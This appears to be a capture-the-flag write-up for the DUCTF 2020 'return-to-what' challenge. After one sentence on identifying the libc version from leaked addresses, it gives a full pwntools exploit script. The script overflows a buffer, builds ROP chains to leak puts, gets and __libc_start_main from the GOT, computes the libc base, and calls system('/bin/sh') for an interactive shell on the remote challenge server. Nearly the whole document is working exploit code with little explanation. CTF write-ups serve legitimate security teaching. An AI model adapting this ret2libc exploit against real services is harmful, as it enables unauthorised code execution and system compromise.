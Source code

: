   title: "return-to-what (DUCTF)",
  description: "DUCTF",
  date: "September 21, 2020",
};


<div className={styles.post}>


# return-to-what (DUCTF)

###### September 21, 2020

Unknown libc version. Leaked multiple addresses of libc functions. Offsets between functions were used to identify the correct libc version, using libc.rip.

<div className={styles.codeblock}>


```
from pwn import *

# local
#target = process('./return-to-what')
#libc = ELF('/usr/lib/libc.so.6')

# remote nc chal.duc.tf 30003
target = remote('chal.duc.tf', 30003)
libc = ELF('libc-2.27.so') # identified using libc.rip

pop_rdi = 0x40122b
got_puts = 0x404018
got_gets = 0x404020
got_libc_start_main = 0x403ff0
plt_puts = 0x401030
ret = 0x401016
start = 0x401060

payload = b''
payload += b'A'*56
payload += p64(pop_rdi)
payload += p64(got_puts) # leak addr
payload += p64(plt_puts) # print address of puts in libc
payload += p64(start) # restart

target.recv() # Where would you like to return to?
target.sendline(payload)

libc_puts = int.from_bytes((target.recvuntil(b'\\n')[:-1]), byteorder='little')
print('puts: ' + hex(libc_puts))

payload = b''
payload += b'A'*56
payload += p64(pop_rdi)
payload += p64(got_gets) # leak addr
payload += p64(plt_puts) # print address of puts in libc
payload += p64(start) # restart

target.recv() # Where would you like to return to?
target.sendline(payload)

libc_gets = int.from_bytes((target.recvuntil(b'\\n')[:-1]), byteorder='little')
print('gets: ' + hex(libc_gets))

payload = b''
payload += b'A'*56
payload += p64(pop_rdi)
payload += p64(got_libc_start_main) # leak addr
payload += p64(plt_puts) # print address of puts in libc
payload += p64(start) # restart

target.recv() # Where would you like to return to?
target.sendline(payload)

start = int.from_bytes((target.recvuntil(b'\\n')[:-1]), byteorder='little')
print('__libc_start_main: ' + hex(start))

# Use https://libc.rip/ to identify libc version
# libc.rip identified libc version as libc6_2.27-3ubuntu1_amd64


libc.address = libc_puts - libc.symbols['puts']
print('libc puts' + hex(libc.symbols['puts']))

bin_sh = next(libc.search(b'/bin/sh'))
libc_system = libc.symbols['system']

payload = b''
payload += b'A' * 56
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(ret)
payload += p64(libc_system)

target.sendline(payload)
target.interactive()
```

</div>

</div>
